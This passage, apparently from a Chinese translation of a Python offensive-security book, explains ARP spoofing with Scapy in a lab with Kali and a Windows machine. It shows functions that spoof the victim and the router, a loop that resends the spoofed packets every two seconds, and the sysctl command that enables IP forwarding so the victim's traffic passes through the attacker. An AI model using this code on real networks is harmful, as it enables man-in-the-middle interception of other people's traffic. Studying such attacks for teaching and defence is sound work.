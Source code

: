 arp_response.psrc = "192.168.74.129"

send(arp_response)

if __name__ == "__main__":

欺骗受害者()

欺骗路由器()

注意，这只会欺骗这些设备一次。为了创建持久的欺骗，我们可以将这些函数调用添加到循环中，并在一定延迟后持续发送这些数据包。这样，**arp** 表将没有机会重置，你将能够永久欺骗这些设备，只要你的欺骗程序仍在运行。

我们也可以尝试在循环中设置退出条件。我们将使用 **KeyboardInterrupt** 来退出。使用以下代码在每 2 秒延迟后持续发送数据包：

try:

while True:

欺骗受害者()

欺骗路由器()

time.sleep(2)

except KeyboardInterrupt as err:

print("退出")

注意，你需要在文件顶部导入 time 模块。尽管我们的欺骗程序看起来已经完成，但仍然有一个小问题——如果受害者现在尝试请求互联网服务器，他们将看到互联网连接问题。运行 **arp** 欺骗程序在 Linux 上，并去 Windows 机器尝试访问一个网站。你将看到一个类似于以下的窗口：

![图 5.11 – 无连接](img/B14788_05_11.jpg)

图 5.11 – 无连接

这是因为数据包正在发送到 Kali 机器，但它正在阻止数据包的转发。为了启用数据包转发，请在 Linux 终端中运行以下命令：

sysctl -w net.ipv4.ip_forward=1
